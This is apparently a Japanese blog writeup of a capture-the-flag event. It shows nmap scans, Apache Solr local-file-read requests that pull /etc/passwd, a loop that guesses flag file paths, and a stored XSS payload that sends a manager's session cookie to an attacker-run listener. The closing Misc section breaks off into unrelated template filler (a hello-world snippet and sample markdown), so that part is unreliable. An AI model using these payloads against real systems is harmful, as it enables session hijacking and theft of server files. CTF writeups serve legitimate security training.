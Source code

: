 ```yaml
---
title: "FFRI × NFLabs. Cybersecurity Challenge 2025 Writeup & Upsolve"
date: 2025-09-15
---
```


# FFRI × NFLabs. Cybersecurity Challenge 2025 Writeup

FFRI × NFLabs. Cybersecurity Challenge 2025 に参加し、結果は **13位** でした。<br>
Top10入りを目標にしていたので悔しい……。

![ranking](/src/content/image/FFRI_NFLabs_ranking.png)

## Welcome [ 1/1 ]

### Welcome [175pt / 66 solves]
提出のみ。

```
flag{Good_Luck_and_Have_Fun!}
```

---

## Pentest [ 3/7 ]

### HiddenService [255pt / 50 solves]

`nmap` で 22/tcp (ssh)、31337/tcp (Apache) を確認。

```bash
$ nmap 10.0.129.138 -sV
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-15 16:51 JST
Nmap scan report for ip-10-0-129-138.ap-northeast-1.compute.internal (10.0.129.138)
Host is up (0.0017s latency).
Not shown: 998 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
31337/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.53 seconds
```

31337 番にアクセスすると簡易シェルに入れたため、`ls`/`cat` で探索して `flag.txt` を取得。

![Hidden_result](/src/content/image/Hidden_result.png)

```
flag{Ch4nging_th3_p0rt_is_p0intl3ss}
```

---

### Shell4Solr [455pt / 16 solves]

`nmap` で 80/tcp (Apache Solr)、2222/tcp (ssh) を確認。80 番は **Apache Solr 8.11.0** の管理画面。

```bash
$ nmap 10.0.129.148 -sV
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-15 17:19 JST
Nmap scan report for ip-10-0-129-148.ap-northeast-1.compute.internal (10.0.129.148)
Host is up (0.0017s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache Solr
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.51 seconds
```

ログ画面（`/admin/info/logging`）に **`authentication=disabled, authorization=disabled`** と表示。
![warn](/src/content/image/Solr_warn.png)
Solr にはデバッグ用途の **DumpRequestHandler** があり、`ContentStreams (stream.*)` をそのまま返すため、認証なしで開いていれば **LFI** が狙えると判断。
まずは `/etc/passwd` を読めるか検証：

```bash
curl -s "http://10.0.129.128:80/solr/$CORE/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd"
```

<details>
<summary><b>レスポンス（抜粋・JSON）</b></summary>

```json
{
  "responseHeader": { "status": 0, "handler": "org.apache.solr.handler.DumpRequestHandler" },
  "params": { "stream.url": "file:///etc/passwd", "param": "ContentStreams" },
  "streams": [
    {
      "sourceInfo": "url",
      "stream": "root:x:0:0:root:/root:/bin/ash\n...snip...\nsolr:x:1000:1000:Linux User,,,:/opt/solr:/bin/ash\n"
    }
  ]
}
```
</details>

`HOME=/opt/solr`, `PWD=/opt/solr/server` などから flag の置き場所を当たり、いくつかの典型パスを総当たり。

```bash
CORE=${CORE:-core0}
BASE="http://10.0.129.128:80/solr/$CORE/debug/dump?param=ContentStreams&stream.url=file://"

for p in \
  /etc/flag /etc/flag.txt \
  /opt/flag /opt/flag.txt \
  /var/flag /var/flag.txt \
  /opt/solr/flag /opt/solr/flag.txt \
  /opt/solr/server/flag /opt/solr/server/flag.txt \
  /opt/solr/server/solr/flag /opt/solr/server/solr/flag.txt \
  /var/solr/flag /var/solr/flag.txt \
  /run/secrets/flag /run/secrets/flag.txt /run/secrets/FLAG \
  /etc/motd /etc/issue /etc/hostname
do
  echo "=== $p"
  curl -s "${BASE}$p"
  echo
done
```

`/opt/solr/server/flag.txt` でヒット：

<details>
<summary><b>レスポンス（JSON）</b></summary>

```json
{
  "responseHeader": { "status": 0 },
  "params": { "stream.url": "file:///opt/solr/server/flag.txt" },
  "streams": [
    { "sourceInfo": "url", "stream": "flag{l0g4j_s0lr_r3vshell}" }
  ],
  "context": { "path": "/debug/dump", "httpMethod": "GET" }
}
```
</details>

```
flag{l0g4j_s0lr_r3vshell}
```

> 余談：当初は Log4Shell の RCE PoC を試したがJDK17でビルドがうまくいかず、GPTに聞きながら1時間くらい格闘してました

---

## Web [ 3/4 ]
### Secure Web Company [300pt / 41 solves]
Dockerfileを見るとREADME.mdが公開されていた。
```Dockerfile
FROM nginx:alpine
COPY index.html script.js style.css README.md /usr/share/nginx/html/
```
```bash
$ curl http://10.0.129.147:8090/README.md 
# 開発者向け

## 管理画面認証情報

- ユーザー名: admin
- パスワード: flag{5up3r53cr37_4dm1n_p455w0rd}
```
```
flag{5up3r53cr37_4dm1n_p455w0rd}
```

### Timecard [380pt / 25 solves]
問題文を読んで、managerのアカウントが1分に1回申請を承認するようになっていたのでStored XSSを使う問題なのかとなぁと思いながら問題を解き始めた。案の定app.pyを見ると、`HttpOnly=false`となっていた。
加えてmanager側の`manager_dashboard.html.js`で`{{ remarks }}`をそのままhtmlとして解釈できるようになっていた。
```PY
app.config['SESSION_COOKIE_HTTPONLY'] = False
app.config['SECRET_KEY'] = SECRET_KEY
app.config['SQLALCHEMY_DATABASE_URI'] = f"mysql+pymysql://{MYSQL_USER}:{MYSQL_PASSWORD}@{MYSQL_HOST}/{MYSQL_DATABASE}"
```
```html
    <ul>
        {% for timecard in timecards %}
            <li>
                {{ timecard.date }}: {{ timecard.start_time }} - {{ timecard.end_time }} ({{ timecard.remarks }})
                <!-- 状態表示 -->
                {% if timecard.cancel_requested %}
                    - <span style="color:orange;">取り消し申請中</span>
                    <form action="{{ url_for('approve_timecard', timecard_id=timecard.id) }}" method="post" style="display:inline;">
                        <button type="submit">取り消し申請承認</button>
                    </form>
                {% elif timecard.approved %}
                    - <span style="color:green;">承認済み</span>
                {% else %}
                    - <span style="color:red;">未承認</span>
                    <form action="{{ url_for('approve_timecard', timecard_id=timecard.id) }}" method="post" style="display:inline;">
                        <button type="submit">承認</button>
                    </form>
                {% endif %}
            </li>
        {% endfor %}
    </ul>
```
これを使ってStored XSSを行う。managerが1分に1回承認しに来るので、そこに`document.cookie`を仕込むことでmanagerのsessionを奪う。まずは待ち受けを立てる
```PY
python3 -m http.server 8000
```
後はremarksの部分にStored XSSを仕込む
```
<img src=x onerror="new Image().src='http://10.0.0.49:8000/?c='+encodeURIComponent(document.cookie)">
```
するとmanagerからのcookieがStored XSSによって窃取できたので、それを自身のcookieにセットする。それでflagが得られた。
```
flag{H9aDSMkTCWZMEuk25nZw}
```

## Malware Analysis [ 2/4 ]
### Downloader
（省略）

## Binary [ 2/4 ]
### Abnormal
（省略）

## Misc [ 3/4 ]
### Bellaso

```js
const hello = () => {
  console.log("Hello, World!");
};
```

> 引用テキストの例です。

[リンクの例](https://example.com)

**太字**や*斜体*のテキストも使用できます。
